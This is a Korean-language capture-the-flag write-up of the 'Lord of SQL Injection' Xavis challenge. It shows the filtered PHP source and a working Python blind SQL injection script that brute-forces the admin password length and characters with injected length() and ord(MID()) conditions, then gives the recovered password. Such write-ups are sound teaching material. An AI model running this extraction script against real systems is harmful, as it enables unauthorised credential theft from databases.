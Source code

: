 # Lord of SQL Injection No.19 Xavis

Xavis 문제는 Blind SQL Injection의 탐색 범위를 늘려 결과값을 찾아낼 수 있도록 유도한 문제이다.

## 소스 코드

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
`$_GET`방식으로 입력받은 `pw`에 `prob`, `_`, `.`, `(`, `)`가 포함되어 있으면 `No Hack ~_~`을 출력시킨 후 문제풀이에 실패하게 된다.

```php
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
```
`regex`와 `like` 함수를 필터링시켰다.

`regex` 는 정규식과 관련된 함수인데, `regexp`, `regexp_like` 등이 있다.
`like` 함수는 이전에 `=`을 우회하기 위하여 사용한 함수이다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
```

문제 내에 존재하는 `pw`값과 `$_GET` 방식으로 입력받은 `pw`값이 일피하면 문제풀이에 성공하게 된다.

## Solution

이전 문제들과는 달리 `regex`, `like` 외에는 별 다른 필터링이 되지 않았기 때문에 초반에 사용하던 기본 코드를 사용해도 좋다고 생각했다.

하지만 `pwlen`을 구하기 위해 지정했던 범위가 1~10 이였으나, 코드를 실행시켜도 찾아지는 값이 없었다.
그렇게 때문에 `pwlen`을 찾는 범위를 1~10에서 1~50으로 늘렸다.

ASCII 값을 대입하여 `pw`를 찾는 반복문의 범위도 원래는 `ord('0')`부터 `ord('z')` 로 지정해주었으나 찾아지는 값이 없어 무한루프가 돌았기 때문에 범위를 1~1000 으로 지정해주었다.

아래는 문제풀이를 하기위해 사용하였던 코드이다. 수정할 부분이 많아 문제가 많을수도 있다.

```python
import urllib.request
from urllib.parse import quote

result = ""
hex_result = "0x"
pwlen = 0
url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="

for i in range(1, 50):
    add_url = "' or id='admin' and length(pw)={} -- ;".format(str(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")
    res = urllib.request.urlopen(re)

    print("Finding Password Length.. => {}".format(i))

    if str(res.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found it! Password Length => {}".format(pwlen))
        break

for i in range(1, pwlen + 1):
    for j in range(1, 1000):
        if i == 2 or i == 4:
            j += 40
        add_url = "' || id='admin' and ord(MID(pw,{0},1))='{1}' -- ;".format(i, j)
        print("Matching.. - [{0}] // Result = [{1}] // Hex_Result = [{2}]".format(chr(j), result, hex_result))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            char = chr(j)
            hex_result += str(hex(j)).replace('0x', '')
            result += chr(j)
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : {0} (Hex : {1})".format(result, hex_result))
```

코드를 실행시키면 `pwlen`은 40이 나오며, `pw`값은 `¸ùÅ°ÆÐÄ¡¤»`로 괴상한 값이 나오게 된다.
이 `pw`를 그대로 URL에 대입하거나 Hex 값으로 변환한 `0xb8f9c5b0c6d0c4a1a4bb`를 `pw`값으로 넣어주면 문제 풀이에 성공하게 된다.